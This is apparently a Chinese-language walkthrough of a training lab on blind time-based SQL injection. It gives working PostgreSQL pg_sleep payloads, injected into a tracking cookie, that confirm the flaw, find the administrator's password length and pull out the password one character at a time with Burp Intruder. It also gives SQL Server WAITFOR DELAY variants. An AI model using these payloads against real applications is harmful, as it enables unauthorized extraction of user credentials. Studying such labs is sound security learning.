



# 题意


利用延时注入获取信息，并用administrator的密码登录。
# 解题思路
step1:验证可以延时注入
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
可以明显感受到第一条注入时会有延时

step2:判断是否存在administrator
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

step3:确定密码位数
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
还是用burpsuite的Intruder模块做。可以确定密码位数是20.

step3:确定密码
与之前两个lab不同的是，这里涉及到对是否提取出正确的字符的时间判断，因此需要监控每个请求花费的时间。为了使这个过程尽可能可靠，需要将Intruder攻击的线程设为1.

payload如下：
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

返回结果如下：

按照response receive降序排列，数值较大的说明产生了延时，因此就是密码对应的字符。

得到的密码是：pl7yl1bcsij1eb79iyms
# 知识点
在数据库错误也不会造成response改变的情况下，就需要使用延时注入。因为SQL查询语句一般都被应用程序同步执行，延时sql语句的执行同样会延时http响应。可以借此推断注入条件的真假。一般来说，语句正确执行花费的时间会比报错要长。延时注入的语句跟数据库的类型有关。对于SQL Server，可以输入如下语句来测试条件真伪和延时注入：

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

第一条语句不会触发延时注入，第二条会。

测试条件真伪可以用如下语句：
```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```